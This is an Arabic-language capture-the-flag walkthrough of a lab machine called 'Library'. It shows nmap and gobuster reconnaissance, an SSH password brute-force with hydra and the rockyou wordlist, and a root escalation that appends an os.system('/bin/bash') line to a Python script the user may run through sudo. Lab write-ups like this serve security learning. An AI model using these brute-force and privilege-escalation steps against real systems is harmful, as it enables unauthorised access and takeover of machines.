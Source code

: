 

#### **المرحلة الأولى: الاستطلاع (Reconnaissance)**

الهدف من هذه المرحلة هو جمع أكبر قدر ممكن من المعلومات عن الهدف.

1. **التأكد من أن الهدف يعمل**
    
    ```bash
    ping 10.10.156.84
    ```
    
    - حصلنا على استجابة، مما يعني أن الجهاز يعمل.
2. **استخدام `nmap` لفحص المنافذ والخدمات**
    
    ```bash
    nmap -sV -n 10.10.156.84
    ```
    
    - المنافذ المفتوحة:
        - **22/tcp** → خدمة SSH (OpenSSH 7.2p2)
        - **80/tcp** → خادم ويب Apache 2.4.18
    - الهدف يعمل بنظام **Ubuntu Linux**.
3. **فحص الملفات والمجلدات على الخادم باستخدام `gobuster`**
    
    ```bash
    gobuster dir -u http://10.10.156.84/ -w /usr/share/wordlists/dirb/common.txt
    ```
    
    - وجدنا الملفات التالية:
        - `/index.html` → الصفحة الرئيسية
        - `/robots.txt` → يحتوي عادةً على مسارات مخفية
        - `/images/` → يحتوي على ملفات الصور
4. **استعراض ملف `robots.txt`**
    
    ```bash
    curl http://10.10.156.84/robots.txt
    ```
    
    - قد يحتوي على مسارات أو معلومات مفيدة.

---

#### **المرحلة الثانية: محاولة الوصول (Exploitation)**

بما أن **خدمة SSH مفتوحة**، سنحاول الوصول إليها باستخدام هجوم تخمين كلمات المرور.

5. **تجربة تسجيل الدخول باسم مستخدم `rockyou`**
    
    ```bash
    ssh rockyou@10.10.156.84
    ```
    
    - لم نتمكن من تسجيل الدخول، مما يعني أن كلمة المرور خاطئة.
6. **تجربة هجوم brute-force باستخدام `hydra`**
    
    ```bash
    hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.156.84
    ```
    
    - وجدنا أن المستخدم `meliodas` يمكن تسجيل الدخول إليه.
7. **تسجيل الدخول عبر SSH**
    
    ```bash
    ssh meliodas@10.10.156.84
    ```
    
    - أدخلنا كلمة المرور المكتشفة، وتم تسجيل الدخول.

---

#### **المرحلة الثالثة: تصعيد الصلاحيات (Privilege Escalation)**

الآن لدينا صلاحيات المستخدم `meliodas`، ونريد الوصول إلى الجذر **(root)**.

8. **فحص الملفات والمجلدات**
    
    ```bash
    ls
    ```
    
    - وجدنا ملفين مهمين:
        - `user.txt` (يحتوي على الفلاج الأول)
        - `bak.py` (سكريبت Python)
9. **قراءة `user.txt`**
    
    ```bash
    cat user.txt
    ```
    
    - حصلنا على الفلاج الأول.
10. **فحص `bak.py`**
    
    ```python
    #!/usr/bin/env python
    import os
    import zipfile
    
    def zipdir(path, ziph):
        for root, dirs, files in os.walk(path):
            for file in files:
                ziph.write(os.path.join(root, file))
    
    if __name__ == '__main__':
        zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
        zipdir('/var/www/html', zipf)
        zipf.close()
    ```
    
    - هذا السكريبت يقوم بضغط ملفات `/var/www/html` إلى `/var/backups/website.zip`.
11. **فحص الصلاحيات المتاحة لنا عبر `sudo`**
    
    ```bash
    sudo -l
    ```
    
    - المستخدم `meliodas` يستطيع تشغيل `bak.py` بصلاحيات `root`.
12. **استغلال الصلاحيات**
    
    - يمكننا تعديل `bak.py` لإضافة `bash` بصلاحيات `root`:
        
        ```bash
        echo "import os; os.system('/bin/bash')" >> bak.py
        ```
        
    - تشغيل السكريبت بصلاحيات `root`:
        
        ```bash
        sudo /usr/bin/python3 /home/meliodas/bak.py
        ```
        
    - الآن لدينا **shell بصلاحيات root**.
13. **الوصول إلى `root.txt`**
    
    ```bash
    cat /root/root.txt
    ```
    
    - حصلنا على الفلاج الثاني!

---
.

💥 **مبروك! لقد أنهيت تحدي Library!** 🚀